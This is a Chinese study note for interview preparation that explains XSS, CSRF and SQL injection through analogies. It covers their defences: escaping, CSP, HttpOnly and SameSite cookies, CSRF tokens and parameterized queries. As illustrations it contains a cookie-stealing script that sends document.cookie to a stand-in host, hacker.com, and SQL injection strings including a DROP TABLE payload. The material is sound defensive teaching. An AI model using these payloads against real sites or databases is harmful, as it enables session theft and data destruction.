

---

title: "XSS / CSRF / SQL 注入：原理与防御"

created: "2025-07-12"

tags:

  - 八股文

  - 计算机网络

---

# XSS / CSRF / SQL 注入：原理与防御

## 🌰 XSS：你在墙上写的字，活了

你进了一家网吧，打开 B 站的某个视频。

视频下面的评论区：

> 用户"张三"留了一条评论，内容是：

> `<script>fetch('https://hacker.com/steal?c='+document.cookie)</script>`

但你看到的是正常评论——这段代码从你的浏览器后台悄悄跑了。

你浏览器里保存的 B 站登录态（cookie），被发到了黑客的服务器上。

黑客拿到你的 cookie，可以直接冒充你登录 B 站。

**你什么都没干，只是打开了一个正常的视频页面。**

问题出在：B 站的服务器没有检查这条评论里有没有夹带"私货"。

张三写了 `<script>`，服务器原样存了，浏览器原样执行了。

**像什么？**

> 你在图书馆的留言簿上看到一行字：

> "所有看这行的人，自动在笔记本上抄一遍你的名字"

> 奇怪的是，每翻开留言簿的人，真的就开始抄自己的名字。

>

> 留言簿（服务器）没有过滤这行字。

> 读者（浏览器）忠实地执行了这行字的指令。

> 因为留言簿没有判断"这行字是普通留言，还是控制读者的咒语"。

> 它把所有内容都当成了"咒语文本"存进去。

**换个角度理解——留言簿应该怎么做？**

正常的留言簿，你看上面写的所有内容，它都是"展示"，不是"执行"。

但 B 站的留言簿坏了：它把你写的"执行这段代码"当成了展示的一部分，

浏览器收到后觉得"哦这是代码，我执行一下"。

**服务器正确做法：**

- 把 `<` 变成 `&lt;`，把 `>` 变成 `&gt;`

- 这样用户写 `<script>`，浏览器只看到文本 `&lt;script&gt;`，不是代码

- 就像留言簿管理员把所有"咒语"改成"这听起来像是咒语，但我只当它是文字"

### XSS 的三种情况
##### 情况一：存在服务器上（存储型）

你在评论区发的恶意代码：

1. 发到服务器

2. 服务器存数据库

3. 以后每个看这个页面的人都会中招

> **最危险**，因为永久有效。一次投放，一直收菜。

##### 情况二：藏在你点的链接里（反射型）

黑客给你发一条消息：

"你看这个视频好好笑 `https://xxx.com/video?title=<script>恶意代码</script>`"

你点开链接 → 网址里的恶意代码被页面使用 → 攻击执行。

> 不点就没事。需要骗你点链接。

##### 情况三：藏在网址里，但不需要服务器配合（DOM 型）

页面的 JS 直接从浏览器的 URL 取出参数，插进页面。

黑客把恶意参数塞在链接里发给你，页面自己的 JS 就执行了恶意代码。

全程服务器完全不知道——它回传的是正常的页面代码。

是前端 JS 自己出了问题。

**三种的核心都一样：** 本该被当作文本的输入，被当成代码执行了。

内容本身没问题，是处理内容的"人"出了问题——它没区分数据和代码。

### XSS 怎么防——一句话核心

任何来自用户的内容，放到页面上之前，先做转义：

- `<` → `&lt;`

- `>` → `&gt;`

- `"` → `&quot;`

这样用户写 `<script>...</script>`，

页面上只显示 `&lt;script&gt;...&lt;/script&gt;` 这个文本，不会执行。

**用现代框架的人占便宜了：**

- React 的 `{userInput}`、Vue 的 `{{userInput}}`、Jinja 的 `{{user_input}}`

- 默认就做了这件事。

那加了转义为啥还不够？因为你可能忘记在某些地方加。

或者你用手动 `innerHTML` 绕过了框架的安全机制。

所以还需要第二道防线：

**CSP（一条 HTTP 响应头）：**

```text

Content-Security-Policy: script-src 'self'

```

告诉浏览器："本页面只能执行我自己服务器上的 JS，

用户写入的任何 `<script>` 标签都别执行。"

像在页面入口设了个安检——就算有恶意脚本写入，也不会被放行。

**HttpOnly Cookie（在设置 cookie 的时候加个标记）：**

```text

Set-Cookie: sessionid=abc123; HttpOnly

```

告诉浏览器："这个 cookie JS 代码不许碰。

只有发 HTTP 请求时自动带上就行了。"

`document.cookie` 拿不到它。

就算黑客注入了 JS，也读不了你的登录态。

---

## 二、CSRF：有人在背后操控你的手

你登录了银行网站（bank.com）。

银行给你发了一个 cookie，证明"你是用户小明"。

你浏览器上挂着这个 cookie，没有退出。

然后你又打开了另一个网站（hacker.com）。

hacker.com 的页面里藏着一个看不见的表单：

> 自动提交到 bank.com/transfer

> 转账对象：hacker

> 转账金额：10000

你什么都没点，hacker.com 的 JS 自动提交了这个表单。

你的浏览器发了一个 POST 请求到 bank.com/transfer。

请求里自动带着 bank.com 给你的 cookie。

bank.com 看到 cookie 说"这是小明"，同意转账。

**你的钱没了。**

**像什么？**

> 你戴着公司工牌（cookie）走在商场里。

> 商场广播喊了一声："工牌上写着'员工'的那位，去前台交 100 块！"

> 你听到后，你的脚自动走向了前台（浏览器自动发了请求）。

> 因为你戴着工牌（带着 cookie），前台认为你是公司的人，

> 你说交 100 块，前台就收了。

>

> **问题在哪？**

> 前台（bank.com）只问了"你戴工牌了吗"（cookie OK），

> 但没问"是谁让你来的"（请求来源）。

**关键：**

1. 你必须在 bank.com 登录过（有 cookie）

2. 你打开了恶意网站

3. bank.com 的接口只靠 cookie 判断你是谁

### CSRF 怎么防——三个方法
##### 方法一：CSRF Token（最根本）

银行说："以后每次转账，除了 cookie 验证，

你还要带一个我发给你的随机码（token）。"

你在 bank.com 的页面上打开转账表单时，

表单里有一个隐藏字段，里面是服务器生成的随机 token。

hacker.com 的页面：

- 它不知道这个 token 是什么

- 它提交请求时没有 token → 银行拒绝

**像什么？**

> 前台不只看工牌，还要你说出当天的工作暗号。

> 暗号只有真公司（真网站页面）才知道。

> 商场广播（hacker.com）不知道暗号是什么——它喊破喉咙也没用。

##### 方法二：SameSite Cookie（现代浏览器默认）

SameSite 是直接让浏览器帮你做判断：

这个请求是从"自己家"发来的，还是从"别人家"发来的？

如果是别人家发来的，cookie 就不带。

**什么意思？**

你在浏览器里打开 bank.com，正常浏览。

银行给你发了 cookie，说"你的工牌在这儿"。

然后你在浏览器新标签页打开了 hacker.com。

hacker.com 试图让浏览器向 bank.com 发请求。

浏览器判断：

"用户当前在 hacker.com 的页面。

但你要发请求去 bank.com——这是跨站请求。

银行 cookie 上写了 SameSite=Lax，我不能自动带上。"

请求发了（hacker.com 可以发请求去 bank.com），

但没带 bank.com 的 cookie。

银行收到请求，看到没有登录态 cookie → 拒绝。

**像什么？**

> 你戴着公司工牌。但工牌上写着一行小字：

> "此工牌只在公司园区内自动亮出。在商场里自动隐藏。"

>

> 你在公司里（bank.com 页面），工牌自动亮出。

> 你在商场里（hacker.com 页面），有人喊你去做事，

> 你的工牌不会自动亮出来。

> 不是你没工牌（cookie 还在），但工牌不会在这个场景下出示。

**三个级别：**

| 值 | 行为 | 场景 |
| :--- | :--- | :--- |
| **Strict** | "任何人从其他网站叫我，我都不带 cookie。" 从 hacker.com 发的 GET 和 POST 都不带 | 最安全，但朋友发的链接点开也要重新登录 |
| **Lax**（默认） | "从其他网站提交表单（POST）不带 cookie。但从其他网站点链接跳过来（GET）可以带。" | 平衡，大部分 CSRF 攻击都是 POST |
| **None** | "不管谁叫我，cookie 都带上去。" 必须配合 Secure 属性 | 只在确实需要跨站携带 cookie 的场景 |

Chrome 从 2020 年开始默认就是 SameSite=Lax。

所以现在很多 CSRF 攻击已经天然被浏览器拦住了。

##### 方法三：关键操作要二次确认

转账、改密码等操作：

- 弹窗让用户再输入一次密码，或者发验证码

- 即使 CSRF 成功了，黑客不知道你的密码，也改不了

> 这不是防 CSRF 本身，而是减轻 CSRF 成功后的损失。

### CSRF vs XSS：本质区别

| 攻击类型 | 本质 | 能力 |
| :--- | :--- | :--- |
| **XSS** | 在你的网站里插入了间谍 | 能偷东西也能发请求，能读写当前页面的所有内容（包括 CSRF token） |
| **CSRF** | 冒充你的手去点按钮 | 能发请求，但收不到响应（跨域限制） |

**关系：**

- 如果网站上同时有 XSS 漏洞，那 CSRF Token 也没用——因为 XSS 能直接偷到当前页面里的 token

- CSRF 依赖用户登录态，XSS 不依赖（直接在你的浏览器里跑代码）

- XSS 的危害大得多

---

## 三、SQL 注入：你往问号框里填了一句"不相关的话"

一个小区的门禁系统。

**正常流程：**

- 保安问："住几零几？"

- 你说："1001"

- 保安查住户表：

```sql

SELECT * FROM 住户 WHERE 房间号 = '1001'

```

- 查到你在列表里 → 让你进

正常情况没问题。

但如果你说：

> "1001' OR '你是住户' = '你是住户"

保安没检查你的回答是否合理，直接拿你的原话去查表：

```sql

SELECT * FROM 住户 WHERE 房间号 = '1001' OR '你是住户' = '你是住户'

```

`'你是住户' = '你是住户'` 永远成立。

整张住户表都被查出来了。

保安一看："你是住户，进去吧。"

**你根本不是 1001 的住户，但你进去了。**

这就是 SQL 注入。

**像什么？**

> 保安不是用一张"住户名单"来查你，

> 而是把你说的每一个字都塞进查询语句里当条件。

> 你说的不光可以是"房间号"（数据），还可以是"查询条件"（代码）。

> 数据和代码没有分开。

**更狠一点的例子：**

> 你说 `"1001'；DROP TABLE 住户表--"`

>

> 保安执行的 SQL：

> ```sql

> SELECT * FROM 住户 WHERE 房间号 = '1001'; DROP TABLE 住户表--

> ```

>

> 查完住户名单后，整张表被删了。

> 从此全楼都没有住户记录了。

### SQL 注入怎么防——一句话核心

**别拼字符串。别拼字符串。别拼字符串。**

```python

# 错误 ❌

sql = "SELECT * FROM users WHERE name = '" + name + "'"

# 正确 ✅

sql = "SELECT * FROM users WHERE name = ?"

cursor.execute(sql, (name,))

```

用参数化查询时：

- 你把 SQL 骨架告诉数据库："帮我查 users 表，条件是 name 等于某个值。"

- 这个"某个值"你单独传进去

- 数据库知道：name 参数是"数据"，不是 SQL 代码

- 即使参数里写了 `' OR '1'='1`，它也只是"一对单引号和一串文字"

- 不会改变 SQL 的查询逻辑

ORM（SQLAlchemy、Django ORM）默认就用参数化查询。

只要你不要手痒去写 raw SQL 拼字符串，ORM 已经帮你防了。

**除了参数化查询，还有辅助手段：**

1. **最小权限**：连接数据库的用户只给必要的权限。只查数据的用户不能删表。即使 SQL 注入成功了，攻击者也不能 DROP TABLE。

2. **输入校验**：数字输入框只允许数字。这不解决根本问题，但可以减少攻击面。

---

## 四、三个对比

| 攻击 | 本质 | 场景 | 防御 | 谁帮你 |
| :--- | :--- | :--- | :--- | :--- |
| **XSS** | 用户输入的内容被当成了 JS 代码执行 | 评论区的 `<script>` 标签，URL 参数的恶意脚本 | 把 `<` `>` 转义成 `&lt;` `&gt;` | React/Vue 默认转义 |
| **CSRF** | 服务器没确认请求是真的来自用户自己 | 你登录银行后打开 hack.com，hack.com 偷偷发起转账请求 | 表单里带随机 token | 现代浏览器默认 SameSite=Lax |
| **SQL 注入** | 用户输入被拼进了 SQL 语句里，数据和代码没分开 | 登录框输入 `' OR '1'='1`，拿到了不是自己的账号 | 参数化查询（用 `?` 占位符，数据单独传） | SQLAlchemy 等默认参数化 |

**共同教训：**

永远不要相信用户的输入。

用户输入的内容，要么转义后展示（防 XSS），

要么用参数化查询传给数据库（防 SQL 注入），

要么加个 token 确认是本人操作（防 CSRF）。

它们的共同点是：不信任来源，执行前先验证一遍。

---

## 一句话讲清

> **一句话讲清：**

>

> "三个都是输入没处理好的攻击。

>

> XSS 是用户输入的内容被当成 JS 执行。

> 防法：输出前转义 `<` `>`，配合 CSP 限制脚本来源。

>

> CSRF 是别的网站利用用户的登录态冒充用户发请求。

> 防法：关键操作加 CSRF token，现代浏览器有 SameSite cookie 兜底。

>

> SQL 注入是用户输入拼进 SQL 语句改了查询逻辑。

> 防法：参数化查询，永远不拼字符串。

>

> 如果非要说共同点——就是不能相信用户的输入在任何环节直接使用。"

---

## 记忆口诀

- **XSS = 你写了`<script>`，它真的执行了。防：`<` 变 `&lt;`**

- **CSRF = 你戴着别人的工牌，不知情地替他按了转账按钮。防：表单里藏个随机码。**

- **SQL 注入 = 你说 `"1001' OR 1=1--"`，保安真拿去查表了。防：参数化查询，别拼字符串。**

---

## 一图流（Mermaid）



## 速记卡（面试闪卡）

**Q1：一句话讲清「XSS / CSRF / SQL 注入：原理与防御」到底是什么？**

A：三种「不信任用户输入」引发的 Web 攻击与防御。

**Q2：XSS：用户输入被当 JS 执行 —— 怎么理解？**

A：像图书馆留言簿：你写的「自动抄名字」指令被管理员当咒语执行了。本质是 Cross-site Scripting（跨站脚本），防法是输出前把 `<` 转义成 `&lt;`，再上 CSP 安检 + HttpOnly 保护 cookie。

**Q3：CSRF：借你的登录态冒充你发请求 —— 怎么理解？**

A：像戴着公司工牌走在商场，广播喊你转账你就真去转了——前台只认工牌（cookie）没问谁让你来的。本质是 Cross-site Request Forgery（跨站请求伪造），防法是表单里藏随机暗号 CSRF Token，浏览器再默认 SameSite=Lax 兜底。

**Q4：SQL 注入：用户输入拼进 SQL 改了逻辑 —— 怎么理解？**

A：像小区保安把你的每句话直接塞进查表语句：你说 `' OR '1'='1`，整张表都被放你进去了。本质是 SQL Injection（SQL 注入），防法是参数化查询（用 ? 占位），永远别拼字符串。

**Q5：三兄弟的共同点：都怪轻信了用户输入 —— 怎么理解？**

A：像三个小偷都从「没检查门禁」溜进来：一个偷 cookie（XSS）、一个借工牌转账（CSRF）、一个改查表逻辑（SQL 注入）。共同教训是永远不信任用户输入，执行前先转义/参数化/验身份。

**Q6：核心速记主线有哪些？**

- XSS=脚本被执行，转义+CSP

- CSRF=借登录态，Token+SameSite

- SQL注入=拼串改逻辑，参数化

- 共同点：别信用户输入

**口诀**

A：XSS 脚本偷偷跑，转义加 CSP 跑不掉

CSRF 借牌把款转，Token 暗号破伎俩

SQL 拼串逻辑乱，参数化查询最稳当

三种攻击一锅端，不信输入是王道

## 相关链接

- 📋 目录：[[00-计算机网络]]

- 📚 学习清单：[[八股文学习路线图]]

- 🔗 [[计算机基础/计算机网络/13-HTTPS加密流程|HTTPS加密流程]] — HTTPS保护传输层，XSS/CSRF防御保护应用层

- 🔗 [[计算机基础/计算机网络/28-对称加密与非对称加密与前向安全|对称加密与非对称加密]] — 加密是安全的基础组件

- 🔗 [[计算机基础/计算机网络/25-Cookie与Session与Token认证三兄弟|Cookie与Session与Token]] — CSRF攻击利用Cookie机制

